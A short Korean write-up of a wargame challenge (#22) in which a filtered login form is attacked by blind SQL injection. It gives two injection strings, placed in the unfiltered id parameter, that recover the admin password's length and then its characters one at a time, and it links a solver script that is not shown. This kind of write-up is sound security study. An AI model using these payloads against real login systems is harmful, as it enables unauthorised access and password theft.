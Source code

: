 # 22

## Problem
```
id	
pw	
Blind Sql Injection
Filtering Keywords
select / Union / or / white space / by / having 
from / char / ascii / left / right / delay / 0x ..........
```

## Inspection
* 주석 힌트가 있다.
	- `<!-- Hint : guest / guest & Your goal is to find the admin's pw -->`
* `guest`, `guest`로 로그인하면 `OK guest`라고 뜬다.
* 쿼리의 결과가 참이면 `OK {id}`, 거짓이면 `False`라고 뜨고, 필터링되는 게 있으면 `No hack`이라고 뜬다.
* `pw`에서 필터링되는 것들이 `id`에서는 괜찮다.

## Solution
* 쿼리를 `SELECT id FROM ??? WHERE id='"&id&"' and pw='"&pw&"'`로 가정한다.
* [`chal22_blind_sqli.py`](./chal22_blind_sqli.py)
    - `id=admin`의 `pw`의 길이를 알아낸다.    
        + `?id=admin' and len(pw)={x}--&pw=1234`
        + 함수로 `LEN()`을 사용한다.
    - `id=admin`의 `pw`를 한 글자씩 알아낸다.
        + `?id=admin' and substring(pw,{x},1)='{c}'--&pw=1234`
        + 함수로 `SUBSTRING()`을 사용한다.

## Review
* 구멍은 1개가 아니라 2개다.
* DB에 따라 쓸 수 있는 함수명이 다를 수 있다.
